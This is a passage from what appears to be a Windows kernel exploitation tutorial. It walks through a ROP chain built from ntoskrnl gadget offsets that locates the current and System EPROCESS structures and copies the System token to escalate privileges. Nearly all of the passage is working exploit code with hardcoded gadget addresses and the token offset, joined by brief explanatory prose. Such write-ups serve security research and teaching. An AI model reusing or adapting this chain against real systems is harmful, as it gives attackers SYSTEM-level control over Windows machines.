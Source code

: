 ```c
// rdi contains a pointer to the address of the current EPROCESS
*(rop + index++) = kernelBase + 0x661ca9;			        // mov rax, rdi ; add rsp, 0x20 ; pop rdi ; ret ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // junk

*(rop + index++) = kernelBase + 0x9c5fa6;			        // mov rax, qword [rax] ; ret ;

*(rop + index++) = kernelBase + 0x98535d;			        // mov r10, rax ; mov rax, r10 ; add rsp, 0x28 ; ret ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // junk
```

## Resolving the System EPROCESS Address

Thankfully the next part is a bit easier! The `System` `EPROCESS` is referenced in `ntoskrnl`, obviously the offset will change per OS build:

```c
// resolve the System EPROCESS address
*(rop + index++) = (QWORD)kernelBase + 0x646305;			// pop rcx ; ret ;
*(rop + index++) = (QWORD)kernelBase + 0xcfc420;            // PsInitialSystemProcess address
*(rop + index++) = kernelBase + 0x5ed216;			        // mov rax, qword [rcx] ; ret ;

// store the value in r8
*(rop + index++) = kernelBase + 0x5a2225;			        // mov r8, rax ; mov rax, r8 ; add rsp, 0x28 ; ret ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // junk
```

Notice that `PsInitialSystemProcess` contains a reference to the `System` `EPROCESS`. We dereference it using `rax` and store the address in `r8`.

## Token Stealing

Finally, we have arrived at the juicy bit! Token theft!

The next bit we want to grab the actual `System` token value and move it into `r8`:

```c
// r10 contains the address of exploit EPROCESS
// r8 contains the address of System EPROCESS

*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = (QWORD)0x4b8;                            // Token offset
*(rop + index++) = kernelBase + 0x31ce9f;			        // add rax, r8 ; ret ;
*(rop + index++) = kernelBase + 0x9c5fa6;			        // mov rax, qword [rax] ; ret ;

// rax holds the system token value

// store the value in r8
*(rop + index++) = kernelBase + 0x5a2225;			        // mov r8, rax ; mov rax, r8 ; add rsp, 0x28 ; ret ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // junk
```
